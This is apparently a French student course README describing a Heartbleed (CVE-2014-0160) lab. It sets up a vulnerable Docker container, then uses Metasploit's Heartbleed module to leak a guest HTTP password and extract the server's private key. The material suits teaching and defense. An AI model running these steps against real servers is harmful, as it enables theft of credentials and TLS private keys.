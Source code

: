 # Introduction à la sécurité des systèmes d'informations

## Equipe

* Guillaume MALLET
* Tom RUSSELLO
* Vincent TAVERNIER

## Faille choisie

CVE-2014-0160 : OpenSSL Heartbeat extension implementation, dite *Heartbleed*.

Versions vulnérables : OpenSSL 1.0.1 through 1.0.1f (inclusive) are vulnerable
(http://heartbleed.com/).

## Références

* http://heartbleed.com/
* https://xkcd.com/1354/

## Préparation de l'environnement

```bash
# Création de l'image Docker utilisant des composants vulnérables
sudo docker build -t cysec-heartbleed .

# Démarrage d'un conteneur utilisant l'image construite
sudo docker run --name cysec-heartbleed -it cysec-heartbleed

# Inspection du réseau bridge : l'adresse IP du conteneur cysec-heartbleed doit
# y apparaître, par défaut sur le sous-réseau 172.17.0.0/24.
# On suppose pour la suite que cette adresse est 172.17.0.2
docker network inspect bridge

# Affichage du site "vulnérable" dans le navigateur
firefox https://172.17.0.2

# Login et mot de passe pour l'authentification HTTP Basic
guest
guest123

# La page d'accueil du site doit être affichée :-)
```

## Exploitation de la faille Hearbleed

### Environnement d'exploitation

```bash
# Installations des paquets nécessaires pour metasploit (exemple sous Debian)
sudo apt-get install git-core postgresql curl ruby-dev nmap gem
gem install wirble sqlite3 bundler
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit*
bundle install

# Démarrage de la console metasploit
./msfconsole

# Utilisation de l'exploit Heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 172.17.0.2 # Addresse IP du conteneur vulnérable
set RPORT 443         # Port HTTPS du conteneur vulnérable
```

### Exploit 1 : vol de mot de passe HTTP basic

```bash
# Dans la console metasploit ouverte précédemment
set VERBOSE true
set ACTION DUMP
grep 'guest*' run

# Si la sortie de cette commande est non-vide, il s'agit du bloc de mémoire qui
# a fui du serveur, et qui contient "guest:[mot de passe guest]". Nous avons
# donc récupéré le mot de passe de l'utilisateur guest.

# Si la sortie de cette commande est vide, l'identifiant de guest est absent de
# la mémoire qui a été récupérée. Effectuez encore quelques requêtes avec votre
# navigateur (ou curl) puis réessayez.
```

### Exploit 2 : récupération de la clé privée

```bash
# Dans la console metasploit ouverte précédemment
set VERBOSE true
set ACTION KEYS
run

# Cette commande effectue plusieurs tentatives pour récupérer la clé privée
# associée au certificat utilisé pour la session SSL. Si la récupération
# réussit, la clé privée (au format PEM, "BEGIN RSA PRIVATE KEY") doit être
# affichée dans la sortie. Elle est aussi stockée dans le fichier mentionné
# juste en dessous dans la sortie de la commande run.

[*] 172.17.0.2:443 - Private key stored in /home/debian/.msf4/loot/...

# Déplaçons ce fichier vers "priv.key"
cp /home/debian/.msf4/loot/... priv.key

# Testons qu'il s'agit bien de la clé privée associée à la clé publique du certificat

# Un simple message
echo 'Hi Alice! This is my secret HTTPS request!' >message.txt

# Chiffré avec la clé publique
openssl rsautl -encrypt -pubin -inkey cert.pub >message.encrypted <message.txt

# Déchiffré avec la clé privée extraite grâce à Heartbleed
openssl rsautl -decrypt -inkey priv.key <message.encrypted

```
